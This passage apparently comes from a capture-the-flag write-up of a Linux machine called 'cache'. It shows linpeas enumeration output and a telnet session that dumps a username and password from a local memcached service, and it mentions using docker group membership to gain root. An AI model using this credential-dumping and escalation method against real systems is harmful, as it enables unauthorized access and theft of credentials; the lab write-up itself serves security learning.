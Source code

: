Next, we will try to run the ```linpeas.sh``` script on the terminal. From the output, we were able to observe that ```apache2``` process stores credentials in memory. This gives us the idea that we could potentially use memcache exploits to extract the credentials of another privileged user. 

```
╔══════════╣ Processes with credentials in memory (root req)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#credentials-from-process-memory    
gdm-password Not Found                                                                           
gnome-keyring-daemon Not Found                                                                   
lightdm Not Found                                                                                
vsftpd Not Found                                                                                 
apache2 process found (dump creds from memory as root)                                           
sshd Not Found
```

From the output of ```linpeas.sh```, we were also able to uncover another user ```luffy```. What is interesting about ```luffy``` is that this user is a member of the ```docker``` group. This furthue gives us an idea that we can leverage on docker to obtain root privileges.

```
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```

However, we will have to obtain the credentials of ```luffy``` first. To do that, we will first dump all the keys cached in the memory and from there, we will be able to obtain the password for ```luffy```

```
ash@cache:~$ telnet 127.0.0.1 11211
telnet 127.0.0.1 11211
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
stats cachedump 1 0
stats cachedump 1 0
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
get user
get user
VALUE user 0 5
luffy
END
get passwd
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
quit
quit
Connection closed by foreign host.
```
